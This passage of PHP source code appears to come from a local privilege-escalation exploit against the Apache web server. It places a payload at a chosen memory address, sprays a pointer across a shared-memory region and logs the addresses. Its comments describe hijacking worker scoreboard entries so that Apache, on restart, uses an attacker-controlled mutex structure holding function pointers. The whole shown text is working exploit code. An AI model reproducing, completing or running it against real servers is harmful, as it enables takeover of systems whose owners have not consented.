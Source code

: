            # Write the payload

            o('Placing payload at address 0x' . dechex($payload_start));

            $p = $payload_start - $address;
            for(
                $i = 0;
                $i < strlen($payload);
                $i++
            )
            {
                $this->abc[$p+$i] = $payload[$i];
            }

            # Fill the spray area with a pointer to properties
            
            $properties_address = $payload_start + strlen($bucket) + strlen($meth);
            o('Spraying pointer');
            o('  Address: 0x' . dechex($properties_address));
            o('  From: 0x' . dechex($spray_min));
            o('  To: 0x' . dechex($spray_max));
            o('  Size: 0x' . dechex($spray_size));
            o('  Covered: 0x' . dechex($spray_size * count($workers_pids)));
            o('  Apache: 0x' . dechex(
                $addresses['apache'][1] -
                $addresses['apache'][0]
            ));

            $s_properties_address = ptr2str($properties_address);

            for(
                $i = $spray_min;
                $i < $spray_max;
                $i++
            )
            {
                $this->abc[$i - $address] = $s_properties_address[$i % 8];
            }
            o('');

            # Find workers PID in the SHM: it indicates the beginning of their
            # process_score structure. We can then change process_score.bucket to
            # the index we computed. When apache reboots, it will use
            # all_buckets[ap_scoreboard_image->parent[i]->bucket]->mutex
            # which means we control the whole apr_proc_mutex_t structure.
            # This structure contains pointers to multiple functions, especially
